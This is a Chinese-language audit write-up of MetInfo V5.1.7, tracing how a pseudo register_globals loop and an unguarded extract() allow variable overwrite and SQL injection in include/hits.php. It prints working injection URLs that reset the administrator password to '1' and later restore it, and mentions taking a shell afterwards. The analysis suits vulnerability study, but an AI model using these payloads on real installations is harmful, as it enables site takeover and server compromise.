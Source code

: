# metinfo多个漏洞

## Affected Version 

__版本：MetInfo V5.1.7  2013年5月23__    


__[metinfo多个漏洞(可getshell)  ](http://wooyun.jozxing.cc/static/bugs/wooyun-2013-043795.html)__


审计一般先看核心文件。

`\include\common.inc.php` 中的21-28行

	define('MAGIC_QUOTES_GPC', get_magic_quotes_gpc());
	isset($_REQUEST['GLOBALS']) && exit('Access Error');
	require_once ROOTPATH.'include/global.func.php';
	foreach(array('_COOKIE', '_POST', '_GET') as $_request) {
		foreach($$_request as $_key => $_value) {
			$_key{0} != '_' && $$_key = daddslashes($_value);
		}
	}


大概从21行程序开始使用了伪`register_globals`机制。


2： 变量未初始化及extract函数使用不当。

在`common.inc.php`文件随后的代码里包含了一个`config.inc.php`的文件, 看名字就知道是一些初始化变量配置, 程序员将应用程序所需变量

放在了`register_globals`机制之后声明估计就是怕变量被覆盖.但是`config.inc.php`的一个数组`$settings`却忘记了初始化.



	/*读配置数据*/
	$query = "SELECT * FROM $met_config WHERE lang='$lang' or lang='metinfo'";
	$result = $db->query($query);
	while($list_config= $db->fetch_array($result)){
		if($metinfoadminok)$list_config['value']=str_replace('"', '&#34;', str_replace("'", '&#39;',$list_config['value']));
		$settings_arr[]=$list_config;
		if($list_config['columnid']){
			$settings[$list_config['name'].'_'.$list_config['columnid']]=$list_config['value'];
		}else{
			$settings[$list_config['name']]=$list_config['value'];
		}
		if($list_config['flashid']){
			$list_config['value']=explode('|',$list_config['value']);
			$falshval['type']=$list_config['value'][0];
			$falshval['x']=$list_config['value'][1];
			$falshval['y']=$list_config['value'][2];
			$falshval['imgtype']=$list_config['value'][3];
			$met_flasharray[$list_config['flashid']]=$falshval;
		}
	}
	@extract($settings);

>在没有初始化的情况下又使用了extract($settings),结合前面的register_globals机制这样就导致多个变量可以被覆盖掉从而控制整个程序逻辑.


3:sql注入绕过

	前面的防注入函数里可以看到替换了一些常用的关键字，使注入的难度增加了，但那仅仅只对sql语句的where之后注入有所防范。
	
	对于可以覆盖系统变量的咋们来讲就不太管用了而且无视GPC，sql注释符也没有过滤。
	
	为了降低攻击成本我挑了一处最容易实现攻击地方，一个update的sql语句。
	
	在 include\hits.php的25行左右。
	
	$query = "update $met_hits SET hits='$hits_list[hits]' where id='$id'";
	
	覆盖掉$met_hits变量就可以update任何数据表，如修改管理员密码。
	
	hits.php?type=img&settings[met_img]=met_admin_table+SET+admin_introduction=admin_pass,admin_pass=md5(1)+WHERE+id=1%23
	
	使用密码1登陆后台拿shell，再把管理员密码改回来。
	
	hits.php?type=img&settings[met_img]=met_admin_table+SET+admin_pass=admin_introduction+WHERE+id=1%23



修改密码

	http://192.168.86.194:9000/MetInfo517/include/hits.php?type=img&settings[met_img]=met_admin_table+SET+admin_introduction=admin_pass,admin_pass=md5(1)+WHERE+id=1%23


将密码修改为 1

![](http://opmi2ydgh.bkt.clouddn.com//18-5-16/38580243.jpg)




## References

[metinfo多个漏洞(可getshell) --wooyun-2013-043795 ](http://wooyun.jozxing.cc/static/bugs/wooyun-2013-043795.html)

[What is register_globals and why is it a security risk?](https://tournasdimitrios1.wordpress.com/2010/11/09/what-is-register_globals-and-why-is-it-a-security-risk/)

[register_globals](https://www.mediawiki.org/wiki/Register_globals)

[PHP Backdoors: Hidden With Clever Use of Extract Function](https://blog.sucuri.net/2014/02/php-backdoors-hidden-with-clever-use-of-extract-function.html)

[PHP extract() Vulnerability](https://davidnoren.com/post/php-extract-vulnerability.html)

